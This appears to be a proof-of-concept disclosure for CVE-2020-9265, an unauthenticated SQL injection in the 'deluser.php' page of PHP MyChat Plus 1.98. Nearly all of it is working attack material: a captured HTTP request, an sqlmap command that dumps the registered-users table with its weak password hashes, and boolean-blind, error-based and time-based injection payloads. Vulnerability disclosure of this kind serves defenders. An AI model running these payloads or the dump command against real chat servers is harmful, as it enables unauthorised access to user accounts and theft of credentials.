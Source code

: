 CVE-2020-9265


The PHP MyChat Plus 1.98 application is vulnerable to SQL Injection without authentication through the "deluser.php" page.

Capture the request through burpsuite:

````
POST /plus/deluser.php HTTP/1.1

Host: HOSTNAME

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://HOSTNAME/plus/deluser.php

Content-Type: application/x-www-form-urlencoded

Content-Length: 77

Connection: close

Cookie: CookieLang=english; temp=temp; CookieUsername=testing; CookieRoom=Public%2BRoom%2B1; CookieRoomType=1; CookieStatus=r; PHPSESSID=0srffkdt9nu2jis443pp9nh3i9

Upgrade-Insecure-Requests: 1



L=english&Link=&LIMIT=0&pmc_username=test&pmc_password=test&login_form=Log+In
````
Then save that request to disk and run SQL Map with the following parameters:
````
sqlmap -r deleteuserlogin.req --level=5 --risk=3 --dbms=mysql --tamper=unmagicquotes -D DBNAME --dump -T c_reg_users -p pmc_username
````

This will dump all the users and the very weak hashes.

````

POC URLS for the injection:
---
Parameter: pmc_username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND 9736=(SELECT (CASE WHEN (9736=9736) THEN 9736 ELSE (SELECT 2847 UNION SELECT 9983) END))-- qEHq&pmc_password=test&login_form=Log In

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' OR (SELECT 7708 FROM(SELECT COUNT(*),CONCAT(0x7170627a71,(SELECT (ELT(7708=7708,1))),0x7162627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ShDx&pmc_password=test&login_form=Log In

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: L=english&Link=&LIMIT=0&pmc_username=test' AND (SELECT 5588 FROM (SELECT(SLEEP(5)))wWnk)-- FHPh&pmc_password=test&login_form=Log In
---
````

CVSS Score: https://cvssjs.github.io/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:L (Critical)
